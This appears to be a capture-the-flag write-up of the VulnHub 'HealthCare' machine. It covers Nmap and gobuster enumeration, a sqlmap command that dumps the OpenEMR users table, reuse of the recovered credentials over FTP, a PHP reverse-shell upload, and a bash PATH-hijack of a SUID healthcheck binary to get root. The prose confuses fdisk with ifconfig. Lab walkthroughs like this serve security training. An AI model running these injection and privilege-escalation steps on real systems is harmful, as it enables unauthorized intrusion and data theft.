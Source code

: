```yaml
---
layout : post
title: HealthCare
image : https://1.bp.blogspot.com/-8Tuwhp9cJi8/X2YHcGf0Y-I/AAAAAAAAonU/lXaPHA3fSuwHEZpi_hv9Z0dSQd-IivsZACLcBGAsYHQ/s16000/6.png
date: 2021-03-01 04:43 EST

tags: [sqlmap,PathHijacking Linux,php File Upload]
---
```


# Nmap

```
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
|_http-title: Coming Soon 2
MAC Address: 08:00:27:12:B9:5A (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

```
# Enumeration

<h3>Gobuster</h3>

![]({{site.baseurl}}/img/vulnhub/EVM1/gobutser.png)

found openemr // lead to sql injection at login page 

# Exploitation 

```
sqlmap -u http://10.0.2.37/openemr/interface/login/validateUser.php?u=admin -D openemr -T users --dump

```

![]({{site.baseurl}}/img/vulnhub/EVM1/sqlmap.png)

from `sql creds` , logged into `ftp`

```
medical : medical 
ackbar : admin 
```

![]({{site.baseurl}}/img/vulnhub/EVM1/ftp.png)

uploaded php shell into `var/www/` folder 

got reverseShell 

# Privilage Esclation 

from suid , healthChecker is executing the fdisk , ipconfig without path 

![]({{site.baseurl}}/img/vulnhub/EVM1/suid.png)

can override the  `ifconfig` , path 

The program is vulnerable because we control the PATH and the program doesn’t use the absolute path to execute the programs so we can execute anything we want as root. To get root I’ll just create a script that sets the SUID bit on /bin/bash, name it fdisk and call /usr/bin/healthcheck after setting the path to my current directory so it doesn’t execute the real fdisk program but my own script

```bash
cd /tmp 

echo "/bin/bash" > ifconfig

chmod +x ifconfig

export PATH=/tmp:$PATH

/usr/bin/healthcheck

//got root access

```



![]({{site.baseurl}}/img/vulnhub/EVM1/root.png)